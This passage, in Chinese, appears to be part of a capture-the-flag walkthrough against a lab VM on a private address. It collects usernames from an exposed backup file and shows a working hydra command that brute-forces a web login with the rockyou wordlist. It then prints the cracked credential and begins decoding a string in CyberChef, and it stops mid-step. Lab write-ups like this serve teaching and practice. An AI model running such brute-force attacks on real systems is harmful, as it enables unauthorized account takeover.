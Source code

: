 访问 `/backup/`，得到

```plaintext title="http://192.168.56.107/backup/vote.txt"
rijaba: Yes
xerosec: Yes
sml: No
cromiphi: No
gatogamer: No
chema: Yes
talleyrand: No
d3b0o: Yes

Since the result was a draw, we will let you enter the darkside, or at least temporarily, good luck kevin.
```

在其中，可以得到以下用户名

```plaintext
rijaba
xerosec
sml
cromiphi
gatogamer
chema
talleyrand
d3b0o
kevin
```

根据提示，针对 `kevin` 用户发起攻击

```bash
┌─[randark@parrot]─[~]
└──╼ $hydra -v -V -l kevin -P /usr/share/wordlists/rockyou.txt -I 192.168.56.107 http-post-form "/:user=kevin&pass=^PASS^:invalid"
......
[80][http-post-form] host: 192.168.56.107   login: kevin   password: iloveyou
```

得到以下凭据

```plaintext
kevin:iloveyou
```

登录之后，得到这份信息

```plaintext
kgr6F1pR4VLAZoFnvRSX1t4GAEqbbph6yYs3ZJw1tXjxZyWCC
```

使用 [Cyberchef](https://gchq.github.io/CyberChef) 的 magic 模块尝试自动解码

![Cyberchef - magic](img/image_20240239-163904.png)

得到

